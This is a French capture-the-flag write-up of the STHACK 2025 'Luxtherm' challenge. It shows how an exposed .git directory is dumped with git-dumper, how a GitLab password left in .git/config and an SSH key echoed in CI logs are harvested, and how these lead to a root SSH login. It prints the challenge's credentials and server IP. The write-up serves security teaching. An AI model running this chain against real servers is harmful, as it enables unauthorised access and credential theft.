


# Luxtherm - STHACK2025

Ce writeup présente ma solution pour résoudre le challenge `Luxtherm` lors du CTF de la `STHACK 2025` le 23/05/2025.

## 🔎 Reconnaissance / Énumération

Le lien vers le site était directement fourni sur la page du challenge. Hormis un simple bouton cliquable qui ne faisait rien et un texte indiquant la date de la dernière mise en production du site, rien de suspect à première vue.


En utilisant Wappalyzer, j’ai remarqué que le site était hébergé sur un serveur Apache. J’ai donc testé le chemin `/.htaccess`. Malheureusement, cela m’a retourné une erreur 403 😿.

J’ai ensuite essayé d’autres chemins courants au hasard avant de lancer une énumération plus poussée avec ffuf. Par pure chance, le chemin `.git/HEAD` était accessible 🙀.


## 📁 Dump des fichiers sur le serveur Apache

Le fait que le chemin `.git/` soit accessible nous permet de télécharger l’intégralité des fichiers du répertoire courant du serveur Apache, y compris les fichiers du dépôt Git. Ces fichiers sont particulièrement intéressants, car ils contiennent des informations sur les modifications apportées au site. Cela peut inclure des secrets laissés en clair dans le code ou d'autres étourderies des développeurs 👀.

Pour récupérer ces fichiers, j’ai utilisé [`git-dumper`](https://github.com/arthaud/git-dumper), un outil conçu spécifiquement pour exploiter ce type de vulnérabilité.

```sh
git-dumper http://51.15.214.59/.git ~/luxtherm
```

J’ai obtenu plusieurs dossiers et fichiers :

* `.git/`, contenant toutes les informations relatives au dépôt Git.
* `src/`, contenant le script de déploiement du site en prod.
* `var/www/`, contenant les sources de l’application.
* `.gitignore`, qui liste les fichiers ignorés lors des pushs sur le dépôt.
* `.gitlab-ci.yml`, contenant les instructions pour déployer automatiquement le site à chaque push via une [pipeline](https://docs.gitlab.com/ci/pipelines/).

Je me suis d’abord concentré sur le script de déploiement `script.sh` dans le dossier `src/` :

```sh
#!/bin/bash

# Arrêter le script en cas d'erreur
set -e

echo 'Creation du chemin vers la clé SSH privée'
mkdir -p "$HOME/.ssh/"

echo 'Écrire la clé SSH privée dans un fichier'
SSH_PRIVATE_KEY_PATH="$HOME/.ssh/id_rsa"
echo "$SSH_PRIVATE_KEY" > "$SSH_PRIVATE_KEY_PATH"
chmod 600 "$SSH_PRIVATE_KEY_PATH"

echo 'verification'
ls -lisah "$SSH_PRIVATE_KEY_PATH"

echo 'Informations de connexion au serveur'
SERVER_USER="root"
SERVER_IP="51.15.214.59"


# Deployer le site web
scp -r -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no var/www/html "$SERVER_USER@$SERVER_IP":/var/www/.

# Commande pour se connecter au serveur et déployer l'application
ssh -i "$SSH_PRIVATE_KEY_PATH" -o StrictHostKeyChecking=no "$SERVER_USER@$SERVER_IP" << 'EOF'
    # Commandes à exécuter sur le serveur

    # cette synthaxe est deprecated, elle est remplacée par le scp qq lignes plus haut
    # git clone https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy

    # indication de la date du dernier déploiement
    HORODATE=$(date)
    sed -i "s@MOTIF@$HORODATE@g" /var/www/html/index.html

    # Ajoutez ici d'autres commandes nécessaires pour construire et démarrer votre application
    # Par exemple :
    # npm install
    # npm run build
    # pm2 restart all
EOF

echo 'Supprimer la clé SSH privée après utilisation'
rm "$SSH_PRIVATE_KEY_PATH"
```

Plusieurs informations intéressantes ressortent :

* L’utilisateur pour déployer le site est `root`, et a donc les privilèges les plus élevés.
* L’adresse du dépôt GitLab du projet est : `gitlab.com/root.luxtherm-group/webapp-auto-deploy`.
* Le script utilise une clé SSH lors du déploiement. Si l’on trouve cette clé dans une version précédente du projet via une erreur des développeurs (clé SSH ou fichier `.env` poussé accidentellement), nous pourrions nous connecter en SSH au compte root.

## 🔑 A la recherche de la clé SSH

J’ai commencé par utiliser `git log` pour lister tous les commits du projet :

```bash
git log

commit 0ab08cd06e26350b947341147bd9174c6ea98f8d
Author: ######
Date:   Tue May 20 22:37:28 2025 +0200

    Deploiement auto du site Luxtherm

commit a81b1787a5c8eccb4120dad9ebe9fbd32d1683d8
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:35:24 2025 +0000

    Modifier script.sh

commit e2adf9251214a15553e016b03e8568a2d0d2d1fb
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 19:26:44 2025 +0000

    Modifier script.sh

commit e71e6afa2acfb320817f10af3f63be03ab1402c5
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:35:05 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit 0805a52efd200f3645167eb1d99ec2483793be0d
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:30:00 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit f9da8bcf0c8a47c38a17745311634aec399174e3
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:29:31 2025 +0000

    Mettre à jour le fichier .gitlab-ci.yml

commit a11fd1dbf19fb66ecc64baef0cda3858490aa39f
Author: ######
Date:   Tue May 20 19:24:56 2025 +0200

    Premiere version de script de deploiement

commit ef88ce29f019a182d58c43a7dcafcb04e29fac45
Author: root luxtherm root.luxtherm@gmail.com
Date:   Tue May 20 17:17:52 2025 +0000

    Initial commit
```

Après avoir exploré les versions précédentes du projet, je n’ai pas trouvé de clé SSH. Je me suis alors rappelé du fichier `.gitlab-ci.yml` et j’ai décidé d’examiner son contenu :

```yml
stages:
  - Deploy

job_Deploy:
  stage: Deploy
  script:
  - echo 'Pipeline de déploiement du site web en production'
  - echo 'NE PAS MODIFIER LE PIPELINE POUR QUE LE CHALLENGE RESTE JOUABLE POUR LES AUTRES, MERCI'
  - echo 'DEBUG:'$SSH_PRIVATE_KEY
  - chmod u+x src/script.sh
  - src/script.sh
```

**Bingo 🎰 !** À chaque push, la clé SSH est affichée en clair dans la console grâce à la ligne :
`echo 'DEBUG:'$SSH_PRIVATE_KEY`.

Direction le dépôt GitLab pour vérifier les traces d’exécution des pipelines !

Malheureusement encore une fois, je me retrouve face à une erreur 403 ...

Pas le choix le dépôt étant privé et donc accessible uniquement avec le compte de son utilisateur, il va falloir trouver son login/mdp.

Je me suis alors mis à fouiller tout les fichiers dumpés jusqu'à tomber sur le fichier `.git/config` : 
```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
#root.luxtherm@gmail.com:********	
	url = https://root.luxtherm:2025sthacK+-/@gitlab.com/root.luxtherm-group/webapp-auto-deploy
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
Ce fichier contient normalement seulement des informations sur les branches, les remotes, et d'autres paramètres liés au comportement de Git avec le dépôt. Or, par chance (pour nous) le développeur ayant travaillé sur le projet a laissé son login/mdp en commentaire. 😈

On peut désormais se connecter au compte de luxther et accéder au dépôt Gitlab.

## 📦 Balade sur le dépôt Git

Comme prévu, les fichiers déjà récupérés sont présents.



En examinant les exécutions de pipeline, je suis tombé sur une exécution réussie avec un job "passant".



Et voilà ! La clé SSH était affichée en clair. Il ne restait plus qu’à la reformater correctement et à l’ajouter dans le dossier `.ssh/`.


En me connectant en SSH avec la commande :

```bash
ssh root@51.15.214.59
```

J’ai accédé au serveur en tant que root. Le flag était alors facile à récupérer 😄.
